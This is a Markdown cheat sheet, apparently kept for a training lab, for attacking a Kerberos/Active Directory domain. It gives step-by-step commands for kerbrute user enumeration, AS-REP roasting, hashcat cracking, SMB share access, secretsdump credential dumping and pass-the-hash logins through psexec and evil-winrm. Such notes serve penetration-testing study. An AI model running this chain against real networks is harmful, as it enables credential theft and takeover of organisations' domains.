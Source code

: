 # KERBEROS / ACTIVE DIRECTORY

`Kerberos is the authentication service in a AD  
Note that Kerberos runs on port 88`  

## Tools :
- Impacket Suit
- BloodHound
- neo4j
- Enum4linux
- [Kerbrute](https://github.com/ropnop/kerbrute) (Really important here)  
- smbclient

ASREP-Roasting : ASREP-Roasting occurs when a user account has the privilege "Does not require Pre-Authentication" set.

# Methodology
1. Enumerate
2. Look for valid users (userenum tag from kerbrute)
3. Get a ticket from a user to log as him  
	- Usually require valid credentials to KerbeRoast
	- If the privilege "Does not require Pre-auth" is set, then, we can use ASREP-Roasting  



## Enum open ports with nmap -A
Set DNS_Domain_Name (found with nmap -A) in /etc/hosts  

## Enum NetBios 
```bash
use enum4linux
```

## Enum for users via Kerberos
```bash
kerbrute userenum -d spookysec.local --dc IP userlist.txt
```

|Tag | Meaning |
|:-------------|--------------------|
|spookysec.local | the DNS_Domain_Name (found with nmap -A)|
|userlist.txt | a list of usernames|

`Note that service users usually have more permissions than normal user account.  
So, this may be interesting. They often have an identifier such as "svc-" which stands for "service"`

## ASREP-Roasting w/ Impacket
ASREP-Roasting occurs when a user account has the privilege "Does not require Pre-Authentication" set.  
This basically consists of retrieving a Kerberos ticket wich can be cracked like a hash  

`This can be tested one by one like : `  
```bash
python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.68.12 spookysec.local/svc-admin -no-pass
```
|Tag | Meaning |
|:-------------|--------------------|
|svc-admin | a valid username found previously|
|spookysec.local | the DNS_Domain_Name (found with nmap -A)|
|-no-pass | Meaning that we are Asrep-Roasting|

`But it cans also bruteforce with a userlist`  

```bash
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -userfile userlist.txt
```
## Crack the hash
Found type : Kerberos 5 AS-REP etype 23  
Documentation : [hashcat](./hashcat.md)
```bash
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
```

## Enum for shares
***Available Tools :*** :
- smbclient
- smbmap
- mount
- smbget
- crackmapexec
```bash
smbclient -L 10.10.72.208 --user svc-admin
```

Or, we can uses smbmap, that looks at permissions too
```bash
smbmap -H spookysec.local -u svc-admin -p password
```
Then, type the password we found earlier  

Or, we can use crackmapexec :  
`Note that sometimes, running with "guest" as user may retrieve stuff`
```bash
crackmapexec smb spookysec.local -u 'svc-admin' -p 'password' --shares
```

## Log into a share w/ smbclient
```bash
smbclient \\\\spookysec.local\\backup --user svc-admin
```
Then, type the password we found earlier  

Or : 
```bash
smbclient \\\\spookysec.local\\backup -Usvc-admin%password
```
`Note that there is no space between -U and svc-admin`


|Tag | Meaning |
|:-------------|--------------------|
|svc-admin | a valid user who nicely gave us his password|




## Enum for additionnal information w/ secretdump.py
``(Admitting that we have a password for the user `backup`)``
Now, we need to retrieve all of the password hashes that this user account has to offer, because we know that it's synced with the Domain Controller and that's why he saved all of them...  
```bash
secretsdump.py -just-dc backup@spookysec.local
```	
```bash
secretdump.py spookysec.local/backup:password--just-dc
```

## Log in with PsExec by "Passing the hash"
`Note that this is not a vulnerability, this is how kerberos works`
```bash
psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
get cmd
```

## Log in with Evil-Winrm by "Passing the hash"
/!\ This only needs the second part (NTLM) of the hash  

```bash
evil-winrm -u administrator -H PUT_THE_NT_HASH_HERE -i spookysec.local
get powershell
```


